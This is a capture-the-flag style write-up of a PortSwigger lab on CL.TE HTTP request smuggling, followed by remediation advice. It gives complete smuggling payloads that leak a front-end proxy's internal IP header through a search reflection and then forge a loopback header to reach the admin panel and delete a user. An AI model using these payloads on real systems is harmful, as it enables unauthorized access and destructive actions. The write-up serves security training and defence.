## Challenge Overview
* **Challenge name**: Exploiting HTTP request smuggling to reveal front-end request rewriting
* **Category**: HTTP Request Smuggling
* **Level**: Practitioner
* **Objective**: Smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user `carlos`.

---

## 1. Fundamental Concepts

In contemporary cloud and enterprise architectures, edge reverse proxies (such as Nginx, Cloudflare, HAProxy, and AWS Application Load Balancers) do not merely route traffic passively. They frequently rewrite incoming HTTP requests before forwarding them to upstream backend servers. This rewriting process standardizes headers, terminates TLS, and injects critical metadata concerning the client's identity and connection state.

### 1.1. Front-End Request Rewriting & The Hidden Header Problem
* **Client Identification Headers:** To inform internal applications of the true client IP address, front-end proxies append custom headers (e.g., `X-Forwarded-For`, `X-Real-IP`, or proprietary headers like `X-Custom-IP-Authorization`).
* **Implicit Trust & Authorization:** Back-end application servers operate under an implicit trust model, assuming that internal network traffic has already been vetted by the perimeter proxy. The back-end inspects these injected headers to enforce IP-based access control, allowing administrative actions only when the header specifies a trusted loopback address (`127.0.0.1`).
* **The Dual Access Barrier:** An external attacker faces two fundamental obstacles:
  1. The exact header name used by the proxy is unknown and often randomly generated or proprietary.
  2. If an attacker attempts to inject the header directly in an external request, the front-end proxy overwrites or strips it with the attacker's public IP address before forwarding.

### 1.2. The CL.TE Desynchronization Mechanism
* **Protocol Discrepancy:** Under HTTP/1.1 (RFC 7230), message body boundaries are defined by `Content-Length` (fixed byte count) or `Transfer-Encoding: chunked` (hex-encoded chunks terminated by `0\r\n\r\n`).
* **Desynchronization Model:** In a CL.TE vulnerability, the Front-end processes requests using `Content-Length`, while the Back-end parses using `Transfer-Encoding: chunked`. By placing a chunked terminator (`0\r\n\r\n`) inside the body, the back-end concludes Request 1 early, leaving the remaining payload in the TCP receive buffer to be prepended to the subsequent request.

> [!IMPORTANT]
> **The Header Reflection Paradigm:** By smuggling a partial POST request targeting an input-reflecting endpoint (such as a search feature) with an oversized `Content-Length`, the back-end is forced to treat the next legitimate incoming request—including all headers injected during front-end rewriting—as the body parameter. When the back-end renders the search results, the proxy's internal secret headers are reflected directly in the HTML response.

---

## 2. Attack Model & Architecture

The attack model operates in two distinct phases: Phase 1 exploits request smuggling to reveal the secret front-end rewriting header, and Phase 2 leverages the discovered header to forge local administrative authorization.

```text
[Attacker]
    │
    │ Phase 1: Sends CL.TE Smuggling Probe
    │ Outer: POST / HTTP/1.1 (Content-Length: 107, Transfer-Encoding: chunked)
    │ Smuggled Request: POST / with 'search=' and Content-Length: 300
    ▼
[Front-end Proxy] (Prioritizes Content-Length: 107)
    │ Forwards entire byte stream to Back-end over persistent TCP connection
    ▼
[Back-end Server] (Prioritizes Transfer-Encoding: chunked)
    │ Reads chunk '1', 'A', and '0\r\n\r\n' -> Finishes Request 1 (200 OK)
    │ Smuggled 'POST /' with 'search=' sits in TCP buffer waiting for 300 bytes
    ▼
[Attacker Sends Next Request on Same Socket]
    │ Front-end rewrites request, injecting internal header:
    │   'X-Gkxtgp-Ip: 116.193.75.6'
    ▼
[Back-end Swallows Next Request into Search Parameter]
    │ Reads incoming request line & rewritten headers into 'search=' parameter
    │ Renders HTML: <h1>0 search results for '... X-Gkxtgp-Ip: 116.193.75.6 ...'</h1>
    ▼
[Attacker Discovers Header: X-Gkxtgp-Ip]
    │
    │ Phase 2: Smuggles POST /admin/delete?username=carlos
    │ Injects: X-Gkxtgp-Ip: 127.0.0.1 (Unmodified because front-end sees it as body data)
    ▼
[Back-end Grants Admin Access & Deletes Carlos (302 Found)]
```

### 2.1. Attack Data Flow Analysis
1. **Step 1 - Reflection Gadget Discovery:** The attacker discovers an endpoint that echoes user input. In this application, submitting `POST /` with parameter `search=123` reflects `'123'` directly within `<h1>` search headers.
2. **Step 2 - Vulnerability Confirmation:** Using both timing delay techniques (`Content-Length: 3` causing timeout) and differential response testing (smuggling `'G'` to trigger GPOST `404 Not Found`), the application is confirmed vulnerable to CL.TE request smuggling.
3. **Step 3 - Header Leak Trapping:** A partial request is smuggled targeting the search endpoint: `POST /` with `Content-Length: 300` and a trailing body parameter `'search='`. The outer request terminates at `0\r\n\r\n`, leaving the search request pending in the back-end buffer.
4. **Step 4 - Parameter Absorption & Information Disclosure:** When the subsequent request arrives, the front-end injects its internal client IP header. The back-end, waiting for 300 bytes of search body data, consumes the entire head of the incoming request into the search parameter, reflecting `X-Gkxtgp-Ip: 116.193.75.6` in the HTML response.
5. **Step 5 - Administrative Authorization Bypass:** With the proprietary header identified, the attacker crafts a smuggled request to `/admin` containing `X-Gkxtgp-Ip: 127.0.0.1`. Because the payload resides inside the HTTP body of the outer request, the front-end proxy does not inspect or overwrite it. The back-end executes the request under local trust, revealing the user management panel.
6. **Step 6 - Privileged Execution:** The smuggled path is updated to `POST /admin/delete?username=carlos HTTP/1.1` with `X-Gkxtgp-Ip: 127.0.0.1`, executing the deletion and returning an `HTTP 302 Found` redirect.

### 2.2. Root Causes
* **HTTP Parser Discrepancy:** The edge proxy and origin server disagree on request framing boundaries under RFC 7230, enabling transport-layer desynchronization.
* **Insecure Perimeter Header Trust:** The back-end relies exclusively on an unauthenticated HTTP header (`X-Gkxtgp-Ip`) to authorize administrative actions, lacking cryptographic session validation.
* **Input Reflection Primitive:** The application reflects unvalidated POST parameters directly into server-rendered HTML, providing an oracle to extract piped socket data.

---

## 3. Vulnerability Exploitation

The exploitation process was executed through a structured, multi-stage methodology utilizing Burp Suite Repeater.

### 3.1. Baseline Connectivity & Protocol Downgrade
An initial baseline request to `'/'` was captured in Burp Suite Repeater. The target environment negotiated HTTP/2 by default, returning an `HTTP/2 200 OK` response with public blog posts.



To test for HTTP/1.1 message boundary parsing discrepancies, the protocol was downgraded to HTTP/1.1, and the **Update Content-Length** setting was unchecked in Burp Repeater.

### 3.2. Probing & Confirming CL.TE Desynchronization
To confirm CL.TE vulnerability, a timing probe was submitted with `Content-Length: 3` and `Transfer-Encoding: chunked`:

```http
POST / HTTP/1.1\r\n
Host: 0ade00550487650f830050cd00a50088.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 3\r\n
Transfer-Encoding: chunked\r\n
\r\n
1\r\n
A\r\n
0\r\n
\r\n
```

The front-end forwarded only the first 3 bytes (`1\r\n`). The back-end, processing the request as chunked, hung waiting for the chunk data and terminator, ultimately triggering an `HTTP/1.1 500 Internal Server Error`: `"Communication timed out"`.



Next, a differential response probe was transmitted appending a single `'G'` character after the terminating chunk (`Content-Length: 12`):

```http
POST / HTTP/1.1\r\n
Host: 0ade00550487650f830050cd00a50088.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 12\r\n
Transfer-Encoding: chunked\r\n
\r\n
1\r\n
A\r\n
0\r\n
\r\n
G
```

The initial transmission completed normally with an `HTTP/1.1 200 OK` response:



Sending an immediate follow-up request returned an `HTTP/1.1 404 Not Found` response containing JSON `"Not Found"`. The smuggled `'G'` byte prepended to the incoming request line to form `GPOST /`, decisively confirming CL.TE desynchronization.



### 3.3. Identifying the Input Reflection Gadget
The blog search function was evaluated by dispatching a `POST /` request with parameter `search=123`. The response rendered `0 search results for '123'`, proving that inputs supplied to the search parameter are echoed back into the response body.



### 3.4. Trapping & Revealing Front-End Rewritten Headers
A header extraction payload was constructed. The smuggled request targeted `POST /` with an intentionally inflated `Content-Length: 300`, terminating with an open `search=` parameter:

```http
POST / HTTP/1.1\r\n
Host: 0ade00550487650f830050cd00a50088.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 107\r\n
Transfer-Encoding: chunked\r\n
\r\n
1\r\n
A\r\n
0\r\n
\r\n
POST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 300\r\n
\r\n
search=
```

The first request primed the back-end socket buffer while returning an `HTTP/1.1 200 OK` response:



When the follow-up request was dispatched, the front-end rewrote it with internal metadata. The back-end absorbed the first 293 bytes of the incoming request into the search parameter. The HTML response reflected the front-end's secret internal header: `X-Gkxtgp-Ip: 116.193.75.6`.



### 3.5. Bypassing Administrative Controls
With the header identified as `X-Gkxtgp-Ip`, an administrative access payload was crafted. The smuggled request targeted `POST /admin`, injecting `X-Gkxtgp-Ip: 127.0.0.1`, with `Content-Length: 5` and body `'tuki'` to cleanly isolate incoming requests:

```http
POST / HTTP/1.1\r\n
Host: 0ade00550487650f830050cd00a50088.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 131\r\n
Transfer-Encoding: chunked\r\n
\r\n
1\r\n
A\r\n
0\r\n
\r\n
POST /admin HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
X-Gkxtgp-Ip: 127.0.0.1\r\n
Content-Length: 5\r\n
\r\n
tuki
```

The initial transmission primed the administrative payload into the back-end socket buffer:



Transmitting the second request triggered the execution of `POST /admin` under local loopback trust. The back-end rendered the Admin Panel, displaying the user list and exposing the deletion endpoint: `/admin/delete?username=carlos`.



### 3.6. Executing User Deletion & Lab Verification
The smuggled request line was modified to invoke the deletion routine: `POST /admin/delete?username=carlos HTTP/1.1` (outer `Content-Length: 154`):

```http
POST / HTTP/1.1\r\n
Host: 0ade00550487650f830050cd00a50088.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 154\r\n
Transfer-Encoding: chunked\r\n
\r\n
1\r\n
A\r\n
0\r\n
\r\n
POST /admin/delete?username=carlos HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
X-Gkxtgp-Ip: 127.0.0.1\r\n
Content-Length: 5\r\n
\r\n
tuki
```

The first transmission primed the deletion request into the socket buffer:



The second transmission executed the deletion. The back-end responded with an `HTTP/1.1 302 Found` redirecting to `/admin`, confirming Carlos was successfully deleted:



The PortSwigger Web Security Academy confirmation banner verified successful completion of the lab:



---

## 4. Remediation & Prevention

Remediating request smuggling and preventing unauthorized access through header manipulation requires defense-in-depth across the network, proxy, and application layers.

### 4.1. End-to-End HTTP/2 Architecture
* **Unified Binary Framing:** Enforce HTTP/2 or HTTP/3 consistently from the client edge to the reverse proxy and through to internal application servers. HTTP/2 eliminates text-based delimitation parsing ambiguities by establishing frame lengths at the binary framing layer.
* **Disable Protocol Downgrading:** Avoid protocol downgrading at reverse proxies. Translating incoming HTTP/2 binary frames into HTTP/1.1 cleartext streams when forwarding upstream introduces message framing discrepancies that enable request smuggling.

### 4.2. Reverse Proxy Hardening & Normalization
* **Ambiguous Framing Rejection:** Configure reverse proxies (e.g., Nginx, HAProxy, Envoy) to reject any request containing both `Content-Length` and `Transfer-Encoding` headers with an immediate `HTTP 400 Bad Request`.
* **Header Normalization:** Strictly normalize HTTP/1.1 headers before proxying upstream. Strip obfuscated `Transfer-Encoding` headers and enforce RFC 7230 Section 3.3.3 compliance.

### 4.3. Application-Tier Defense-in-Depth
* **Zero-Trust Header Architecture:** Never rely on client-controllable or proxy-injected headers (such as `X-Forwarded-For` or custom IP headers) for authorization decisions without cryptographically verifiable identities (e.g., mutual TLS or signed JWTs).
* **Native Application RBAC:** Administrative endpoints must require cryptographic session authentication and enforce Role-Based Access Control (RBAC) directly inside application code, rather than delegating security to network boundary filters.
* **Connection Pool Isolation:** Avoid reusing persistent backend TCP connections across different client security boundaries, preventing queued smuggled request fragments from contaminating subsequent client sessions.
